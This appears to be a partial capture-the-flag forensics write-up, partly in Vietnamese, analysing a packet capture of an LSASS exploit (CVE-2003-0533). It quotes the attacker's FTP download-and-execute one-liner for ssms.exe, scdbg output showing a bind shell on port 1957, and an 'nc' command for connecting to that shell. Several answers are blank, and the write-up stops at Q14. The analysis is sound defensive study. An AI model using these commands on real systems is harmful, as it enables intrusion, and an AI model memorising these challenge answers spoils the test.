

Q1 What is the attacker's IP address?


192.150.11.111 [VIDCAM] (Linux)
98.114.205.102 [HOD] (Windows)


220 NzmxFtpd 0wns j0


### Q2 What is the target's IP address? {#3467b0eb61a48095ac4bd49cdd9952f4}


### Q3 Provide the country code for the attacker's IP address (a.k.a geo-location). {#3467b0eb61a48083878ff8794c0f101e}


### Q4 How many TCP sessions are present in the captured traffic? {#3467b0eb61a480b38635cf8059896931}


### Q5 How long did it take to perform the attack (in seconds)? {#3467b0eb61a4800f90f6ea6191e5bb00}


### Q6 Provide the CVE number of the exploited vulnerability. {#3467b0eb61a4801180c3e1e1940fb4bb}


Distributed Computing Environment / Remote Procedure Call (DCE/RPC) Response, Fragment: Single, FragLen: 48, Call: 1, Ctx: 0, [Req: #33]


Operation: DsRoleUpgradeDownlevelServer (9)


CVE-2003-0533


### Q7 Which protocol was used to carry over the exploit? {#3467b0eb61a480a8aae7d54c60648a6b}


### Q8 Which protocol did the attacker use to download additional malicious files to the target system? {#3467b0eb61a480fb8d3de3330b410839}


### Q9 What is the name of the downloaded malware? {#3467b0eb61a48061bed7ebeca736dff2}


echo open 0.0.0.0 8884 &gt; o&echo user 1 1 &gt;&gt; o &echo get ssms.exe &gt;&gt; o &echo quit &gt;&gt; o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe


### Q10 The attacker's server was listening on a specific port. Provide the port number. {#3467b0eb61a480cfb856c07c69e13a5f}


### Q11 When was the involved malware first submitted to VirusTotal for analysis? Format: YYYY-MM-DD {#3467b0eb61a48048b224cbfb79873dba}


 2007-06-27


### Q12 What is the key used to encode the shellcode? {#3467b0eb61a480269956e6bb90a64b5d}


Hacker phải dùng key mã hóa ở đây là xor để tránh bị EDR, EV phát hiện


```c++
scdbg -f shellcode.bin -s -1 -v
```


`Process Environment Block (PEB)`. The PEB is a structure in Windows that contains information about the currently running process, including loaded modules, memory layout, and execution state. By traversing this structure, the shellcode can locate the base address of essential system libraries, such as kernel32.dll, which contains critical functions needed for execution.


Lỗ hổng CVE 2003-0533 lợi dụng buffer overflow của lsass trên windows

- NOP sled: việc tính toán địa chỉ để ép CPU nhảy vào đoạn mã độc là rất khó, nên kẻ tấn công dùng một thủ thuật gọi là NOP sled (trượt NOP). NOP mã hex 0x90 là lệnh bảo CPU dừng làm gì cả hãy tiếp
- Nếu CPU nhảy trúng chỗ 0x90 thì cứu nhảy tiếp




Ngay sau NOP sled là shellcode:

- **Phép toán XOR:** Kỹ thuật được dùng ở đây là mã hóa XOR. Đây là phép toán hai chiều: `A XOR Khóa = B` (Mã hóa), và `B XOR Khóa = A` (Giải mã).
- **Xác định Khóa (Key):** Nhìn vào khung đỏ ở **Hình 2**, trình giả lập `scdbg` đã hiển thị rõ các tập lệnh Assembly (hợp ngữ). Bạn hãy chú ý đến vòng lặp (loop):
`xor byte [edx+ecx], 0x99`
Lệnh này yêu cầu CPU lấy từng byte của đoạn mã độc bị mã hóa, thực hiện phép toán XOR với giá trị **`0x99`**.
- **Kết luận Q12:** Vậy đáp án chính xác cho câu hỏi "What is the key used to encode the shellcode?" là **`0x99`**. Mã độc sẽ tự động xoay vòng giải mã toàn bộ thân của nó ngay trên bộ nhớ RAM.

```c++

```


### Q13 What is the port number the shellcode binds to? {#3467b0eb61a4805fa004d4bfd7f33522}


1957


```c++
└─$ scdbg /f shellcode.bin /findsc
Loaded 13f7 bytes from file shellcode.bin
Testing 5111 offsets  |  Percent Complete: 99%  |  Completed in 7574 ms
0) offset=0x70f        steps=MAX    final_eip=7c80ae40   GetProcAddress
1) offset=0x7c1        steps=MAX    final_eip=7c80ae40   GetProcAddress
2) offset= 0x942        steps=1401       final_eip= 401ebe      
3) offset= 0x8d2        steps=1393       final_eip= 401ebe     
4) offset= 0x8d5        steps=1391       final_eip= 401ebe      

Select index to execute:: (int/reg) 0
0
Loaded 13f7 bytes from file shellcode.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 70f
40170f  90                              nop 
401710  90                              nop                                                                                       
401711  90                              nop                                                                                       
401712  90                              nop                                                                                       
401713  90                              nop                                                                                       
                                                                                                                                  
                                                                                                                                  
4018cf  GetProcAddress(CreateProcessA)
4018cf  GetProcAddress(ExitThread)
4018cf  GetProcAddress(LoadLibraryA)
401843  LoadLibraryA(ws2_32)
4018cf  GetProcAddress(WSASocketA)
4018cf  GetProcAddress(bind)
4018cf  GetProcAddress(listen)
4018cf  GetProcAddress(accept)
4018cf  GetProcAddress(closesocket)
401859  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
40186d  bind(h=42, port:1957, sz=10) = 15
401873  listen(h=42) = 21
401879  accept(h=42, sa=21, len=21) = 68
4018b6  CreateProcessA( cmd,  ) = 0x1269
4018ba  closesocket(h=68)
4018be  closesocket(h=42)
4018c2  ExitThread(0)

Stepcount 7657


```


**`/findsc`**: quét toàn bộ file để tìm các điểm bắt đầu (offset) có khả năng là mã thực thi. `offset 0x70f` và nó dẫn thẳng vào một chuỗi `nop` (No-Operation)


- **`GetProcAddress`** **&** **`LoadLibraryA`**: Shellcode không thể gọi hàm trực tiếp như phần mềm bình thường. Nó phải đi "hỏi" Windows xem địa chỉ của các hàm như `CreateProcessA` hay `bind` nằm ở đâu trong bộ nhớ RAM.
- **`LoadLibraryA(ws2_32)`**: Nó nạp thư viện mạng của Windows (`ws2_32.dll`) để chuẩn bị làm việc với Internet.
- **`WSASocket`**: Tạo ra một "ổ cắm" mạng.
- **`bind(port:1957)`**: **Đây là bằng chứng đanh thép cho Q13.** Malware ra lệnh cho Windows: "Hãy dành riêng cổng **1957** cho tôi".
- **`listen`**: Chuyển sang trạng thái "đang nghe", sẵn sàng chờ đợi một kết nối từ bên ngoài (từ hacker).
- **`accept`**: Dừng lại và đợi. Khi hacker kết nối tới cổng 1957, hàm này sẽ được kích hoạt để chấp nhận kẻ tấn công vào hệ thống.
- **`CreateProcessA( cmd, )`**: Ngay sau khi `accept` thành công, nó gọi `cmd.exe`.
	- **Điểm mấu chốt:** Trong mã nguồn của shellcode này, luồng vào/ra (stdin/stdout) của `cmd.exe` đã được chuyển hướng (redirect) vào cái socket mạng vừa tạo.
	- **Kết quả:** Hacker chỉ cần dùng lệnh `nc <IP_nạn_nhân> 1957` là sẽ có ngay một cửa sổ CMD của máy nạn nhân hiện lên trên máy mình.
- **`closesocket`** **&** **`ExitThread`**: Sau khi hacker thoát ra, nó đóng các kết nối và kết thúc tiến trình một cách êm đẹp để tránh để lại lỗi hệ thống gây chú ý.

### Q14 The shellcode used a specific technique to determine its location in memory. What is the OS file being queried during this process? {#3467b0eb61a4804d970edd7ed40becb9}

